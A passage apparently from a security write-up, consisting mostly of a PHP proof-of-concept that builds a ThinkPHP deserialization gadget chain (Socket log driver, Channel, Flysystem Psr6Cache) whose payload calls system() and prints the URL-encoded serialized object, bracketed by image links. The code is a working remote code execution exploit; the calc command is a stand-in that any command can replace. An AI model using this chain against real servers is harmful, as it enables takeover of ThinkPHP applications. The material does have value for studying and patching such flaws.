 ```
    class Request{
        protected $url;
        public function __construct()
        {
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct()
        {
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        protected $clientArg = [];

        public function __construct()
        {
            
            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'], # 利用类和方法
            ];
            $this->app = new \think\App();
            $this->clientArg = ['tabid'=>'1'];
        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(serialize($a));
}
```

![image-20220929181920152](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209291819220.png?x-oss-process=hzy)
